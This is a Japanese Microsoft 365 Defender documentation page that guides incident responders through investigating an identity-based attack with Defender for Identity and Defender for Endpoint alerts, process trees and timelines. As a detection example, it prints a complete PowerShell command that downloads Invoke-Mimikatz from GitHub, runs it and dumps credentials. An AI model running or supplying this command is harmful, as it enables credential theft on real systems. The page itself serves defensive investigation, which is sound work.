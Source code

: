 ```yaml
---
title: ID ベースの攻撃の例
description: ID ベースの攻撃の分析の例を示します。
keywords: インシデント, アラート, 調査, 相関関係, 攻撃, マシン, デバイス, ユーザー, ID, ID, メールボックス, 電子メール, 365, microsoft, m365, インシデント対応, サイバー攻撃
search.product: eADQiWindows 10XVcnh
ms.service: microsoft-365-security
ms.subservice: m365d
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365solution-firstincident
- highpri
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.openlocfilehash: c96e9bef376ad7f36386e8aed78b97cd01332805
ms.sourcegitcommit: 10e6abe740e27000e223378eb17d657a47555fa8
ms.translationtype: MT
ms.contentlocale: ja-JP
ms.lasthandoff: 08/31/2022
ms.locfileid: "67480298"
---
```

# <a name="example-of-an-identity-based-attack"></a>ID ベースの攻撃の例

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**適用対象:**
- Microsoft 365 Defender

Microsoft Defender for Identityは、組織内の ID を侵害する悪意のある試みを検出するのに役立ちます。 Defender for Identity はMicrosoft 365 Defenderと統合されるため、セキュリティ アナリストは、Netlogon 特権昇格の試行の疑いなど、Defender for Identity からの脅威を可視化できます。

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Microsoft Defender for Identityでの攻撃の分析

Microsoft 365 Defenderを使用すると、アナリストはインシデント ページの [アラート] タブで検出ソースによって **アラート** をフィルター処理できます。 次の例では、検出ソースが **Defender for Identity** にフィルター処理されます。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Microsoft Defender for Identityで検出ソースをフィルター処理する" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

**ハッシュ攻撃の疑いのあるアラートを** 選択すると、Microsoft Defender for Cloud Appsのページに移動し、より詳細な情報が表示されます。 アラートまたは攻撃の詳細については、 **このアラートの種類の詳細** を選択して、攻撃と修復 [の提案の説明を](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) 読むことができます。
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="疑わしい超過ハッシュ攻撃アラート" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Microsoft Defender for Endpointで同じ攻撃を調査する

または、アナリストは Defender for Endpoint を使用して、エンドポイント上のアクティビティの詳細を確認することもできます。 インシデント キューからインシデントを選択し、[ **アラート** ] タブを選択します。ここから、検出ソースも識別できます。 EDR としてラベル付けされた検出ソースは、エンドポイントの検出と応答を表します。これは Defender for Endpoint です。 ここから、アナリストは EDR によって検出されたアラートを選択します。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Microsoft Defender for Endpoint ポータルでのエンドポイントの検出と応答" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

アラート ページには、影響を受けるデバイス名、ユーザー名、自動調査の状態、アラートの詳細など、さまざまな関連情報が表示されます。 アラート ストーリーは、プロセス ツリーの視覚的な表現を示しています。 プロセス ツリーは、アラートに関連する親プロセスと子プロセスを階層的に表したものです。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Microsoft Defender for Endpointのアラート プロセス ツリー" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

各プロセスを展開して詳細を表示できます。 アナリストが確認できる詳細は、悪意のあるスクリプト、送信接続 IP アドレス、およびその他の有用な情報の一部として入力された実際のコマンドです。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Microsoft Defender for Endpoint ポータルのプロセスの詳細" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
**[タイムラインで表示]** を選択すると、アナリストはさらにドリルダウンして、侵害の正確な時刻を判断できます。 

Microsoft Defender for Endpointは、多くの悪意のあるファイルとスクリプトを検出できます。 ただし、送信接続、PowerShell、およびコマンド ライン アクティビティの正当な用途が多いため、悪意のあるファイルまたはアクティビティが作成されるまで、一部のアクティビティは無害と見なされます。 そのため、タイムラインを使用すると、アナリストは周囲のアクティビティと共にコンテキストにアラートを配置し、他の場合は共通のファイル システムとユーザー アクティビティによって隠されている攻撃の元のソースまたは時刻を判断できます。 

タイムラインを使用するために、アナリストはアラート検出の時点 (赤) から開始し、時間をさかのぼって下にスクロールして、悪意のあるアクティビティにつながった元のアクティビティが実際に開始されたタイミングを判断します。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="アナリストのアラート検出の開始時刻" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Windows Update接続、Windows Trusted Software アクティブ化トラフィック、Microsoft サイトへのその他の一般的な接続、サード パーティのインターネット アクティビティ、Microsoft Endpoint Configuration Manager アクティビティなどの一般的なアクティビティを、疑わしいアクティビティから理解して区別することが重要です。 区別する方法の 1 つは、タイムライン フィルターを使用する方法です。 アナリストが表示したくないものを除外しながら、特定のアクティビティを強調表示できるフィルターは多数あります。 

次の図では、アナリストがフィルター処理して、ネットワーク イベントとプロセス イベントのみを表示しています。 このフィルター条件を使用すると、アナリストは、メモ帳が IP アドレスとの接続を確立したイベントを取り巻くネットワーク接続とプロセスを確認できます。プロセス ツリーでも確認できます。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="メモ帳を使用して悪意のある送信接続を行った方法" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

この特定のイベントでは、メモ帳を使用して悪意のある送信接続を行いました。 ただし、通常、iexplorer.exe プロセスは通常の Web ブラウザー アクティビティと見なされるため、攻撃者はiexplorer.exeを使用して悪意のあるペイロードをダウンロードするための接続を確立します。

タイムラインで探すもう 1 つの項目は、PowerShell が送信接続に使用することです。 アナリストは、悪意のあるファイルをホストしている Web サイトへの送信接続に `IEX (New-Object Net.Webclient)` 続いて、コマンドを使用して PowerShell 接続が正常に行われるかどうかを探します。 

次の例では、PowerShell を使用して、Web サイトから Mimikatz をダウンロードして実行しました。

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
アナリストは、検索バーにキーワードを入力してキーワードをすばやく検索し、PowerShell で作成されたイベントのみを表示できます。 

## <a name="next-step"></a>次のステップ

フィッシング調査パス [を](first-incident-path-phishing.md) 参照してください。

## <a name="see-also"></a>関連項目

- [インシデントの概要](incidents-overview.md)
- [インシデントの管理](manage-incidents.md)
- [インシデントの調査](investigate-incidents.md)
